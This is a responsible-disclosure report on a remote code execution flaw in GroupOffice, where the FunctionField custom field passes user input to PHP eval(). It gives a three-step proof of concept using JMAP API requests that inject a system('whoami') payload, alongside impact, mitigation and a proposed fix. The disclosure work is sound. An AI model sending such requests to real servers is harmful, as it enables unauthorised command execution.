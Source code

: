 ```yaml
---
title: CVE XXXX-XXXXX
date: 2025-09-30 12:14:12 +1
categories: [CVE]
tags: [CVE, RCE]
---
```


# GroupOffice Remote Code Execution Vulnerability Report

## Executive Summary

A critical Remote Code Execution (RCE) vulnerability has been discovered in GroupOffice that allows authenticated users with custom field management privileges to execute arbitrary PHP code on the server. This vulnerability affects the custom field functionality and can lead to complete server compromise.

## Vulnerability Details

**Product**: [GroupOffice](https://github.com/Intermesh/groupoffice)
**Affected Component**: Custom Field Function Field Type  
**Vulnerability Type**: Remote Code Execution (RCE)  
**Severity**: Critical (CVSS 3.1: 9.1)  
**Authentication Required**: Yes (with `mayChangeCustomFields` permission)  
**CVE ID**: Pending Assignment  

## Technical Description

The vulnerability exists in the `FunctionField` class located at `/www/go/core/customfield/FunctionField.php`. The `dbToApi()` method uses PHP's `eval()` function to execute user-controlled input without proper sanitization:

```php
// Line 65 in FunctionField.php
eval("\$result = " . $f . ";");
```

The variable `$f` contains the value from `$this->field->getOption("function")`, which is directly controlled by users who can create or modify custom fields of type "FunctionField".

## Proof of Concept

### Step 1: Create a FieldSet
```json
POST /api/jmap.php HTTP/1.1
Content-Type: application/json

[
    ["FieldSet/set", {
      "create": {
        "temp1": {
          "name": "Test FieldSet",
          "entity": "Contact"
        }
      }
    }, "c1"]
]
```

### Step 2: Create Malicious FunctionField
```json
POST /api/jmap.php HTTP/1.1
Content-Type: application/json

[
    ["Field/set", {
      "create": {
        "temp1": {
          "name": "Calculator Field",
          "fieldSetId": "1",
          "type": "FunctionField",
          "databaseName": "calc_field",
          "options": {
            "function": "system('whoami'); 42"
          },
          "sortOrder": 1
        }
      }
    }, "c1"]
]
```

### Step 3: Trigger Code Execution
```json
POST /api/jmap.php HTTP/1.1
Content-Type: application/json

[
    ["Contact/get", {
      "ids": null,
      "properties": ["id", "name", "customFields"]
    }, "c1"]
]
```

### Expected Result
The server executes the `whoami` command and returns the result in the custom field value, demonstrating successful code execution.

## Impact Assessment

- **Complete Server Compromise**: Attackers can execute arbitrary system commands
- **Data Exfiltration**: Access to sensitive files and database contents
- **Lateral Movement**: Potential to compromise other systems on the network
- **Service Disruption**: Ability to modify or delete critical system files
- **Privilege Escalation**: Depending on web server configuration

## Affected Versions

This vulnerability affects GroupOffice installations that include the custom fields functionality. The exact version range needs to be determined by the development team.

## Prerequisites for Exploitation

1. Valid authentication to GroupOffice
2. User account with `mayChangeCustomFields` permission
3. Access to entities that support custom fields (Contacts, Notes, Tasks, etc.)

## Mitigation Recommendations

### Immediate Actions
1. **Disable FunctionField Type**: Remove or disable the FunctionField custom field type
2. **Review Permissions**: Audit users with `mayChangeCustomFields` permissions
3. **Monitor Logs**: Check for suspicious custom field creation activities

### Long-term Fixes
1. **Remove eval() Usage**: Replace `eval()` with a safe mathematical expression parser
2. **Input Validation**: Implement strict validation for function field expressions
3. **Sandboxing**: If mathematical expressions are needed, use a sandboxed parser library
4. **Code Review**: Audit all instances of `eval()`, `system()`, `exec()` in the codebase

## Proposed Fix

Replace the vulnerable code in `FunctionField.php`:

```php
// VULNERABLE CODE (Line 65)
eval("\$result = " . $f . ";");


// SECURE ALTERNATIVE
try {
    // Use a safe mathematical expression evaluator
    $parser = new MathExpressionParser();
    $result = $parser->evaluate($f);
} catch (Exception $e) {
    $result = null;
}
```

## Timeline

- **Discovery Date**: 2025-08-28
- **Vendor Notification**: 2025-08-29
- **Vendor Response**: Yes
- **Fix Released**: Fixed in 25.0.47 and 6.8.136

## Credit

Discovered by: Noah "nxvh" Heraud  
Contact: heraud260@gmail.com  

## Responsible Disclosure

This vulnerability is being reported following responsible disclosure practices. We request:

1. Acknowledgment of this report within 5 business days
2. Regular updates on remediation progress
3. Credit in security advisories and release notes
4. Coordination on public disclosure timing

## References

- [GroupOffice Official Website](https://www.group-office.com/)
- [OWASP Code Injection Prevention](https://owasp.org/www-community/attacks/Code_Injection)
- [CWE-95: Improper Neutralization of Directives in Dynamically Evaluated Code ('Eval Injection')](https://cwe.mitre.org/data/definitions/95.html)
